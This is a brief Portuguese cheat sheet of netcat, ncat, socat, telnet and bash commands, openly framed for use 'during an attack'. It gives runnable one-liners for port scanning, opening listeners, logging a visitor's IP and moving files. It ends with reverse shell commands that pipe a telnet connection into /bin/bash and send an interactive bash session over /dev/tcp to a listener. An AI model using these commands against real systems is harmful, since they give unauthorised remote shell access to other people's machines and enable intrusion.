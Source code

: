 ## NETCAT

Verificando Portas:

```nc www.site.com.br 21``` 

```nc -v www.site.com.br 80``` 

Verificando serviços em execução:

```netstat -nlpt```

Abrindo Porta:

```nc -vlp 123```

Se conectando a porta aberta:

```nc 192.168.0.1 123```

**Exemplo de IP Logger:**

Abrindo porta:

```nc -vnlp 80```

Alvo apos acessar via browser é possivel capturar o ip:

```nc Site_ou_Ip 80```

**Transferencia de Arquivos:**

Enviando o arquivo para o ip e porta criada:

``` nc -v 192.168.0.1 123 < ncat.exe ```

Baixando o arquivo enviado:

``` nc -vnlp 123 > ncat.exe ```

**PortScan**

Scanneando uma unica porta:

``` nc -vnz 192.168.0.1 21 ```

Scaneando um range de portas:

``` nc -vnz 192.168.0.1 20-30 ```

## NCAT

Obs.: Alem do Netcat você pode usar o ncat caso queira proteger todos os dados que estão trafegando durante o ataque, o ncat possui recursos de criptográfia.

## SOCAT

Abrindo porta:

``` socat - tcp4-listen:123 ```

Acessando porta aberta:

``` nc -vn 192.168.0.1 123 ```

## TELNET

Abrindo porta:

``` nc -vnlp 123 ```

Acessando porta aberta:

``` telnet 192.168.0.1 123 | /bin/bash ```

## /DEV/TCP/

Abrindo Porta:

```nc -l 123```

Enviando Shell:

``` bash -i > /dev/tcp/192.168.0.1/123 0>&1 ```

















